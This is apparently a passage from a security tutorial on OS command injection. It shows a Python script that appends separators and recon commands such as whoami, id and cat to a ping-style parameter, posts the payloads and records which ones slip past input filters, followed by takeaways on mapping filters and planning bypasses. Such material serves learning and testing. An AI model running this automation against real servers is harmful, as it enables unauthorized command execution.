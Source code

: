 ```python
    "127.0.0.1"
)

for char, status in results.items():
    print(f"Character '{char}' (\\x{ord(char):02x}): {status}")
```

### Command Testing Automation

**Command Enumeration:**
```python
def test_commands(base_url, param_name, separator):
    """Test common commands using identified separator"""
    
    commands = ['whoami', 'id', 'ls', 'cat', 'pwd', 'uname']
    base_payload = "127.0.0.1"
    
    for cmd in commands:
        payload = base_payload + separator + cmd
        encoded_payload = urllib.parse.quote(payload, safe='')
        
        response = requests.post(base_url, data={param_name: encoded_payload})
        
        if "Invalid input" in response.text:
            print(f"Command '{cmd}': BLOCKED")
        elif cmd in response.text or len(response.text) > 200:
            print(f"Command '{cmd}': ALLOWED")
        else:
            print(f"Command '{cmd}': UNKNOWN")
```

---

## Key Takeaways

### Filter Identification Best Practices

**1. Systematic Testing:**
- Start with individual characters
- Test all injection operators
- Document allowed/blocked patterns
- Build comprehensive filter map

**2. Incremental Complexity:**
- Begin with simple payloads
- Gradually increase complexity
- Test command combinations
- Validate bypass techniques

**3. Documentation:**
- Maintain detailed filter analysis
- Track working payloads
- Note environmental constraints
- Plan bypass strategies
